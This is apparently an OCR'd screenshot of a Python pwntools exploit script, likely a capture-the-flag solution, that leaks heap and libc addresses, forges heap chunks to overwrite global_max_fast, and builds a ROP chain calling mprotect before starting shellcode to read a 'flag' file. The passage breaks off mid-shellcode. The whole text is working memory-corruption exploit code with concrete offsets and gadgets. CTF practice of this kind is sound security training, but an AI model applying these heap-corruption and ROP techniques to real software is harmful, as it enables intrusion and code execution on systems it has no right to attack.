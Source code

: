 ```python
  rv(0x100)
  heap_addr = u64(rv(8))
  top_addr = u64(rv(8))
  libc.address = top_addr - 1985696
  lg('heap_addr',heap_addr)
  lg('top_addr',top_addr)
  lg('libc',libc.address)
  malloc_hook = libc.symbols['__malloc_hook']
  lg('malloc_hook',malloc_hook)
  dl_open_hook = libc.symbols['_dl_open_hook']
  lg('dl_open_hook',dl_open_hook)
  global_max_fast = libc.address + 0x1e7600
  lg('global_max_fast',global_max_fast)
  IO_list_all = libc.symbols['_IO_list_all']
  lg('IO_list_all',IO_list_all)
  system = libc.symbols['system']
  lg('system',system)
  #lg('global_max_fast',global_max_fast)
  #delete(1)
  for i in range(7):
    add(0x3f0,p64(0x11)*(0x3f0/8),1)
    delete(1)

  payload = '\x00'*0x20 + p64(0) + p64(0xb1)
  payload += p64(heap_addr-0x620) + p64(global_max_fast-0x10)
  payload += (p64(0) + p64(0x21))*0x33
  add(0x370,payload,1)
  delete(0)
  #raw_input()
  
  add(0xa0,'a'*0xa0,0)
  delete(0)
  delete(1)
  payload = '\x00'*0x20 + p64(0) + p64(0x221)
  payload += p64(0)
  payload = payload.ljust(0x370,'\x00')
  add(0x370,payload,1)

  #raw_input()
  payload = p64(0x11)*(0x210/8)
  add(0x210,payload,0)
  delete(1)
  
  payload = '\x00'*0x20 + p64(0) + p64(0x1441)
  payload = payload.ljust(0x370,'\x00')
  add(0x370,payload,1)

  #raw_input()
  delete(0)
  delete(1)

  mprotect = libc.address + 0x117590
  pop_rdi = libc.address + 0x0000000000026542
  pop_rsi = libc.address + 0x0000000000026f9e
  pop_rdx = libc.address + 0x000000000012bda6
  rop_chain = p64(pop_rdi) + p64(heap_addr&0xfffffffffffff000)
  rop_chain += p64(pop_rsi) + p64(0x2000)
  rop_chain += p64(pop_rdx) + p64(7)
  rop_chain += p64(mprotect)

  shellcode = shellcraft.amd64.pushstr('flag')
  shellcode += '''
    mov rdi,rsp
```